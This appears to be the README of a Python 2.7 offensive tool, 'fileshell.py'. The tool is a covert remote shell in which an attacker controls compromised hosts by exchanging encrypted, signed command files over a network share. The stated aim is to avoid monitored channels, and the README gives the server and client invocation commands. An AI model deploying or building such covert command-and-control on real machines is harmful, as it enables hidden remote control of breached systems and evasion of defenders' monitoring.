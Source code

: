 # fileshell
fileshell.py -- a File-IO based remote shell, for use where there is no direct communication
				channel between the attacker and the owned target, but they can communicate
				by writing and reading files to/from a remote share/file server etc, or where other forms 
				of communication are monitored.

				Tested to work on python 2.7.

				Composed of a single client (runs on attacker machine) and one or more servers
				(run on compromised machines). Currently you *must* start the server before running the client!
				Sample workflow:

				1. on host <owned1>, run 'python path\to\fileshell.py \\fileshare\myshare -s
				2. on host <owned2>, run 'python path\to\fileshell.py \\fileshare\myshare -s
				2. on your computer <h4x0r>, run 'python path\to\fileshell.py \\fileshare\myshare -c owned1

				This will look like a usual shell from the client side, but behind the scenes it negotiates
				symmetric encryption and signing keys via DH exchange, then for every command sent and every
				output returned, it encrypts/decrypts via AES-CTR-128 and signs/verifies via HMAC-SHA256
				with the derived keys. 
				All communications, including the key exchange, are done over files	in the given root share
				(the server will create a folder for its target the first time it runs).
				The users (or computer accounts, if running as SYSTEM) running these scripts must have
				read+write+modify access to the given share.

				Features:
				1. Client-server communication starts with a DH handshake for every new session, generating an encryption and a signing key.
				2. All communications after the handshake are AES-128 encrypted with the generated
				encryption key, and signed using HMAC-SHA256 with the signing key.
				3. Client side features shell-like behaviour, with extra commands:
					a. cc <hostname>: changes context (starts new session) to that of hostname.
					b. exit: exits current session gracefully.

				Dependencies:
				1. PyCrypto for Python 2.7 (tested to work on PyCrypto v2.6)
					
